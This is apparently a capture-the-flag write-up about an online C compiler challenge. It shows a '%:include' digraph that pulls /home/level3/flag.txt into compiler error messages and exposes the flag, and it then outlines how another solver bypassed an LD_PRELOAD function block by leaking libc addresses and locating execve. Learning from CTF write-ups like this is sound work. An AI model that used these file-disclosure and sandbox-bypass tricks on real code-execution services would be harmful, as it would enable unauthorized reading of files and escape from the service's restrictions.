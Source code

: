```.shell
Your C code:
%:include "/home/level3/flag.txt"
DONE

-----------------------------
Compiling your code.
In file included from /tmp/1b9dd64e-70af-40cf-95b5-d4ef0593247c/bin.c:13:0:
/home/level3/flag.txt: In function ‘_24f9c1e3682289873677f3f7f79ea8df’:
/home/level3/flag.txt:1:1: error: ‘FLAG’ undeclared (first use in this function)
 FLAG-BE79t326XS03122r5A4206tv395P64WB
 ^
/home/level3/flag.txt:1:1: note: each undeclared identifier is reported only once for each function it appears in
/home/level3/flag.txt:1:6: error: ‘BE79t326XS03122r5A4206tv395P64WB’ undeclared (first use in this function)
 FLAG-BE79t326XS03122r5A4206tv395P64WB
      ^
/tmp/1b9dd64e-70af-40cf-95b5-d4ef0593247c/bin.c:16:1: error: expected ‘;’ before ‘}’ token
 }
 ^
Your code does not compile.
```

There we go: `FLAG-BE79t326XS03122r5A4206tv395P64WB`

## Other solutions

### Bypass LD_PRELOAD

As I've noticed some functions (among these also `execve()`) were disabled due to the `LD_PRELOAD` override. Some [smart guy](https://ringzer0team.com/profile/2319) managed it to find in memory the real libc functions and thus bypassing the `LD_PRELOAD` override. Using [libcdb.com](http://libcdb.com) you can identify the exact version of the used libc version by finding out the addresses of some functions (in his case `puts` and `printf`):

```
Compiling your code.
Executing your code.
puts: 0x7ffe36166e30
printf: 0x7ffe3614b400
```  

After finding the exact libc version, he/she downloaded the file and had a look at it:

```.shell
$ readelf -s libc-2.19_15.so | grep puts
   184: 000000000006fe30   399 FUNC    GLOBAL DEFAULT   12 _IO_puts@@GLIBC_2.2.5
   400: 000000000006fe30   399 FUNC    WEAK   DEFAULT   12 puts@@GLIBC_2.2.5      <--- the one we have
   471: 00000000000fef10  1031 FUNC    GLOBAL DEFAULT   12 putspent@@GLIBC_2.2.5      
   644: 0000000000100900   555 FUNC    GLOBAL DEFAULT   12 putsgent@@GLIBC_2.10
  1089: 000000000006e730   303 FUNC    WEAK   DEFAULT   12 fputs@@GLIBC_2.2.5
  1597: 000000000006e730   303 FUNC    GLOBAL DEFAULT   12 _IO_fputs@@GLIBC_2.2.5
  2199: 0000000000073a80    95 FUNC    GLOBAL DEFAULT   12 fputs_unlocked@@GLIBC_2.2.5

$ greadelf -s libc-2.19_15.so | grep execve
   987: 00000000000c1360   200 FUNC    GLOBAL DEFAULT   12 fexecve@@GLIBC_2.2.5
  1418: 00000000000c1330    34 FUNC    WEAK   DEFAULT   12 execve@@GLIBC_2.2.5    <--- the one we want
```
